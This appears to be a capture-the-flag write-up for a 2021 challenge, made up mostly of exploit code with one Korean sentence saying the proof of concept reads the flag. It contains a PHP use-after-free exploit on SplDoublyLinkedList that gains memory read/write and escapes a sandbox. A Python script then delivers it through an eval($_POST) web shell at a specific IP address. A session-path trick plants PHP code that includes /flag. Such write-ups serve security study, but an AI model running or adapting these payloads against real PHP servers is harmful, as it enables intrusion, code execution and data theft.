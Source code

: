```php
# This will make sure that every current->next points the same memory block,
# which we will UAF.
for($i = 0; $i < NB_DANGLING; $i++)
{
    $dlls[$i] = new SplDoublyLinkedList();
    $dlls[$i]->push(new DanglingTrigger($i));
    $dlls[$i]->rewind();
}

# We want our UAF'd list element to be before two strings, so that we can
# obtain the address of the first string, and increase is size. We then have
# R/W over all memory after the obtained address.
define('NB_STRS', 50);
for($i = 0; $i < NB_STRS; $i++)
{
    $strs[] = str_shuffle(str_repeat('A', SIZE_ELEM_STR));
    i2s($strs[$i], 0, STR_MARKER);
    i2s($strs[$i], 8, $i, 7);
}

# Free one string in the middle, ...
$strs[NB_STRS - 20] = 123;
# ... and put the to-be-UAF'd list element instead.
$dlls[0]->push(0);

# Setup the last DLlist, which will exploit the UAF
$dlls[NB_DANGLING] = new SplDoublyLinkedList();
$dlls[NB_DANGLING]->push(new UAFTrigger());
$dlls[NB_DANGLING]->rewind();

# Trigger the bug on the first list
$dlls[0]->offsetUnset(0);
die();
```

```python
import requests

data = {
    'payload': open('uaf.php').read().replace('<?php', '')
}

response = requests.post("http://3.38.109.135:28344/data/bf233c59229bbbbe50aa44971fbb17c2/40977f3b892bcbc3edd5fd4f1d3abe38.pht?code=eval($_POST['payload']);", data=data)
print(response.text)
```

![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/flag.png?raw=true)

위 poc 코드를 실행 시켜주면 UAF Sandbox Escape 공격으로 플래그를 읽어오는 것을 볼 수 있습니다.

---
```php
echo session_save_path()."<br>";
mkdir("a");
mkdir("a/b");
chdir("a/b/");
session_save_path("../../plugin");
chdir("../..");
session_start();
$_SESSION['test']="<?php include(\"/flag\"); ?>";
```
